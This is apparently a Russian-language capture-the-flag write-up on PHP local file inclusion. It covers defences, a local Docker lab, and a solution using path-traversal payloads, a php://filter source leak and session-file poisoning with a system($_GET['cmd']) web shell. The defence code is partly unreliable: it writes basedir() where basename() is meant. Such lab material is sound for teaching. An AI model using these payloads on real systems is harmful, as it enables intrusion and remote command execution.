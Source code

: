 ﻿**Описание уязвимости**

Данная уязвимость возникает в приложениях, если пользователь может каким-то образом взаимодействовать с API файловой системы. В большинстве случаев web-приложение использует GET или POST параметры для передачи их содержимого одной из возможной функции включения файлов, но не ограничивается ими.

Функции в разных языках, которые могут приводить к LFI:

- **PHP**: include() / include\_once() , file\_get\_contents() , fopen() / file()![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.001.png)
- **Java**: import![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.002.png)
- **.NET**: @Html.RemotePartial() , include
- **NodeJS**: res.render()

  Кроме того, если web-сервер собирает какую-то информацию, например в /etc/apache2/access.log(в случае apache) или /var/log/nginx/access.log(в случае с nginx), то при наличии LFI, можно выставить в качестве значения заголовка User-Agent, какой- то код(в большинстве случаев на php), и включить log файл в следующем запросе. Если web сервер, настроен на обработку php файлов из директории, в которой находятся log файлы, то код выполнится.

**Способы защиты**

В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты.

- В случае с включением каких-то определённых файлов, можно использовать функцию basename(), которая принимает в качестве параметра любой путь, а возвращает название файла с его расширением. Конечный код должен выглядеть так:

include basedir($\_GET['language'])![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.003.png)

- Необходимо выставлять значение таких переменных, как allow\_url\_fopen или allow\_url\_include на off, так как большинство из них позволяет использовать обёртки.
- Можно использовать переменную open\_basedir, которая не позволит злоумышленнику получить доступ к файлам, находящимся вне директории, прописанной в качестве значения данной переменной.
- Делать рекурсивную проверку на наличие последовательностей типа '../' или '..\'

while (strpos($param\_value, '../') !== false) {![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.004.png)

$param\_value = str\_replace('../', '', $param\_value); }

- Использование WAF

**Запуск приложения**

Для запуска данного приложения необходимо:

- скачать репозиторий
- зайти в директорию с файлом docker-compose.yaml
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:

docker-compose up![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.005.png)

- в файле docker-compose.yaml можно поменять значение порта с 8090 на любой другой
- в файле .env можно поменять значение флага на желаемое

**Описание уязвимости**

Необходимо получить доступ к файлу /flag.txt.

В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлу index.php.

Приложение получает и обрабатывает GET параметры, убирая при этом последовательности символов "../". В результате запроса php генерирует html страничку, на которой в объект div с классом container происходит включение содержимого файла из GET параметра с помощью функции include . Кроме того в приложении происходит отслеживание информации о пользователе:

$path\_to\_lang\_file = $\_GET['lang']; $\_SESSION[![ref1]'language'] = $path\_to\_lang\_file;

Вектор атаки:

- при обращении на index.php в качестве значения GET параметра использовать php код
- посмотреть на имя cookie в Storage с помощью инструмента разработчика
- в следующем GET запросе в качестве значения GET параметра использовать файл абсолютный путь до файла /tmp/sess\_<имя-cookie>
- при следующих запросах необходимо повторить шаги 1 и 2 снова

**Решение**

Первое, что можно сделать - это попытаться найти path traversal в GET параметре, передавая в качестве значения следующие полезные нагрузки:

../../../../../../../../../../../../etc/passwd ..././..././..././..././..././..././..././etc/passwd ....//....//....//....//....//....//....//....//etc/passwd %2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.007.png) E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd %252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E% 252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.008.png)

В результате будет выводиться следующее:

![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.009.jpeg)

Это может навести на мысль о том, что значение заголовка фильтруется.

Можно попытаться использовать php wrappers для получения index.php в base64:

php://filter/convert.base64-encode/resource=./index.php![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.010.png)

![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.011.jpeg)

Получаем содержимое страницы в base64.

Используем любой доступный декодер и получаем следующее:

![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.012.jpeg)

В данном файле имеется три подсказки:

- выставленное значение переменной open\_basedir(/app, /tmp - в первой директории хранятся файлы, во второй - сессии)
- комментарий о том, что сессии хранятся в директории tmp
- $\_SESSION['language'] = $path\_to\_lang\_file , где $path\_to\_lang\_file в случае обхода фильтрации будет содержать значение GET параметра.

  После этого можно сделать GET запрос с определённым значением:

  ![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.013.jpeg)

  И проверить сохранилось ли это значение в сессии:

  ![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.014.jpeg)

  Полезная нагрузка в данном случае будет следующая:

http://localhost:8090/index.php?lang=<?php system($\_GET['cmd']);?> ![ref1]http://localhost:8090/index.php?lang=/tmp/sess\_<имя-cookie>?cmd=url-encode(команда)

![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.015.jpeg)

Видим содержимое корня и замечаем файлик flag.txt

![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.016.jpeg)

Выводим содержимое файла и получаем флаг:

![](Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.017.jpeg)

[ref1]: Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.006.png
